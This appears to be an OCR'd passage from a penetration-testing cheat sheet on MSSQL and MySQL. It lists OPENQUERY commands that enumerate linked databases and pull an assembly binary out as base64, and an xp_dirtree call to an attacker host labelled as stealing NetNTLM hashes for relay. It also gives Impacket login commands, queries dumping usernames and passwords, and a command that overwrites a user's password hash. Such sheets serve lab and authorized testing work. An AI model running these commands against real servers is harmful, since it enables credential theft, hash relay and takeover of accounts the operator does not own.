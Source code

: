 #### <mark style="color:yellow;">**OPENQUERY**</mark>

```
1> select * from openquery("web\clients", 'select name from master.sys.databases');
2> go
```

```
1> select * from openquery("web\clients", 'select name from clients.sys.objects');
2> go
```

#### <mark style="color:yellow;">**Binary Extraction as Base64**</mark>

```
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

#### <mark style="color:yellow;">**Steal NetNTLM Hash / Relay Attack**</mark>

```
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```

#### <mark style="color:yellow;">Impacket mssqlclient.py</mark>

```
impacket-mssqlclient <USER>:<PASS>@<TARGET_IP>
./mssqlclient.py <USER>:<PASS>@<TARGET_IP>
```

### <mark style="color:blue;">**MySQL**</mark>

```
mysql -u root -p
mysql -u <USERNAME> -h <RHOST> -p
```

```
mysql> show databases;
mysql> use <DATABASE>;
mysql> show tables;
mysql> describe <TABLE>;
mysql> SELECT * FROM Users;
mysql> SELECT * FROM users \G;
mysql> SELECT Username,Password FROM Users;
```

#### <mark style="color:yellow;">**Update User Password**</mark>

```
mysql> update user set password = '37b08599d3f323491a66feabbb5b26af' where user_id = 1;
```
